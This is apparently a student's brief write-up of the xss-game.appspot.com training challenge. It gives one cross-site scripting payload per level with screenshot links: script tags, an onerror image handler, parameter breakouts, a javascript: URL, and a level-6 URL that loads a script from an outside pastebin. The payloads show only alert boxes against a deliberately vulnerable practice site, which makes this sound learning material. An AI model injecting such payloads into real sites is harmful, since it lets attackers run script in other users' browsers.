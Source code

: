 # Writeup xss-game.appspot.com

![](<../.gitbook/assets/image (256).png>)

&#x20;\<script>alert('test');\</script>

![](https://telegra.ph/file/7e09bb5bce9c983973c96.png)

\<IMG SRC=/ onerror="alert(паставтезочет)">\</img>

![](https://telegra.ph/file/4f23b981797f19de9a853.png)

frame#1'/>'window.location='\<script>alert('POSTAVTE ZACHET');\</script>

![](https://telegra.ph/file/56195fb04355e144048e7.png)

timer=69') || alert ('zachetplease

![](https://telegra.ph/file/8b03318ddbe7c8eb2f740.png)

signup?next=javascript:alert('pfff')

![](https://telegra.ph/file/2d7a03cf31cfb09164930.png)

[https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw/dhZT7Ubw](https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw/dhZT7Ubw)

![](https://telegra.ph/file/d03be6f3780679b49873f.png)
